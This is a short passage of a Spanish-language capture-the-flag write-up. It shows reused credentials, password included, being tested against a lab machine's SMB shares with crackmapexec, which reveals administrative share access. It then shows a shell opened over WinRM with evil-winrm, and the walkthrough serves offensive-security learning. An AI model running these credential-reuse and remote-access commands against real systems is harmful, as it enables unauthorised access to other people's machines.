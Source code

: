 <figure><img src="../../../../../.gitbook/assets/imagen (130).png" alt=""><figcaption></figcaption></figure>

Procederemos a comprobar con estas nuevas credenciales el SMB y nos damos cuenta que tenemos permisos para acceder a "ADMIN$" y "C$", lo cual parece indicar que tenemos privilegios de Administración.

```bash
crackmapexec smb 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --shares
```

<figure><img src="../../../../../.gitbook/assets/imagen (131).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

En este punto, probaremos de intentar acceder con este nuevo usuario al WinRM que hemos encontrado expuesto (Puerto 5985) a través de la herramienta de **evil-winrm**. Comprobaremos que hemos podido acceder correctamente y comprobaremos la _flag_ del usuario.

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
